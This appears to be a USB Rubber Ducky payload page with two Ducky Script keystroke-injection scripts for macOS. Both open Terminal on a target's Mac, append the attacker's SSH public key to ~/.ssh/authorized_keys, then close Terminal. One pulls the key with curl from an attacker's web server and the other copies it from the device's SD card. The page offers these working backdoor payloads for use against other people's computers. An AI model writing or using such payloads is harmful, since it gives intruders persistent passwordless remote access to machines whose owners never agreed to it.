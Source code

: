Author: Jesse Wallace (c0deous)

This script adds an ssh public key to the authorized_keys file on a target's mac. After running you can connect to the target computer with `ssh targetuser@targetcomputer` and you will be granted access without a password.  This a good alternative to the [OS X User Backdoor payload](https://github.com/hak5darren/USB-Rubber-Ducky/wiki/Payload---OSX-User-Backdoor).  There are methods you can use: the web server method, and the twin duck method. The web server method requires you to have a web server (that the target can connect to), and you also must put your id_rsa.pub on your webserver. The twin duck method requires you to have the [Twin Duck firmware](http://code.google.com/p/ducky-decode/downloads/detail?name=c_duck_v2.1.hex&can=2&q=) [flashed](http://code.google.com/p/ducky-decode/wiki/Flashing_Guide) onto your ducky, and your id_rsa.pub needs to be at the root of the sd card. Also you need to name your ducky's sd card DUCKY. For more information on generating an id_rsa.pub read [this](https://www.digitalocean.com/community/articles/how-to-set-up-ssh-keys--2) (steps 1 & 2).  Note: I reccomend you use [duckencoder 2.6.3](http://code.google.com/p/ducky-decode/downloads/detail?name=DuckEncoder_2.6.3.zip&can=2&q=) to encode these payloads. 

## Webserver Method
 
Replace SERVER with the address of your webserver.

    REM Title: OS X Get SSH access
    REM Author: Jesse Wallace (c0deous)
    REM This script adds a ssh public key to the authorized_keys file on a target's mac.
    
    DELAY 1000
    COMMAND SPACE
    DELAY 500
    STRING Terminal
    DELAY 500
    ENTER
    DELAY 800
    STRING curl http://SERVER/id_rsa.pub >> ~/.ssh/authorized_keys
    ENTER
    DELAY 1000
    STRING killall Terminal
    ENTER

    REM Note: you may shorten the times if you think they are too slow.  I made them to accomodate older macs that can't get around very fast.

## Twin Duck Method
Requires the [Twin Duck firmware](http://code.google.com/p/ducky-decode/downloads/detail?name=c_duck_v2.1.hex&can=2&q=) to work.  Instructions for flashing the firmware can be found [here](https://github.com/hak5darren/USB-Rubber-Ducky/wiki/Flashing-ducky).  After installing the firmware you need to rename the sd card to DUCKY.

    REM Title: OS X Get SSH access (twin duck version)
    REM Author: Jesse Wallace (c0deous)
    REM This script adds the public ssh key of your attacker computer to the
    REM authorized_keys file in the computers ~/.ssh directory.
    
    DELAY 1000
    COMMAND SPACE
    DELAY 800
    STRING Terminal
    DELAY 500
    ENTER
    DELAY 500
    STRING cat /Volumes/DUCKY/id_rsa.pub >> ~/.ssh/authorized_keys
    ENTER
    DELAY 250
    STRING diskutil unmount /Volumes/DUCKY
    ENTER
    DELAY 800
    STRING killall Terminal
    ENTER

    REM Note: you must quickly unplug your ducky as soon as this is done because if you wait too long it will remount the mass storage and when you disconnect
    REM it from the computer it may corrupt the sd card (this has happened to me before)

